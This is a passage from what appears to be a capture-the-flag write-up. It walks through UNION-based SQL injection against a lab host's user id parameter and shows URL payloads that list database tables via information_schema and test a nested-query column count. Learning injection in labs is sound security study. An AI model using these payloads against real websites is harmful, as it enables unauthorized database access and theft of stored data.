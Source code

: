 Next we want to see the tables in the database and can use the same query as before:

```
http://$VICTIM/user?id=1337 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
```

However this time when we ask for all tables using group\_concat we only see the one user table:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We know a different database contains the posts table, but we find the expected flag table can’t be queried here. It’s at this point that we need to go back to the hint about running a query inside a query. And we again need to determine the number of columns:

```
http://$VICTM/user?id=1337 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()
```
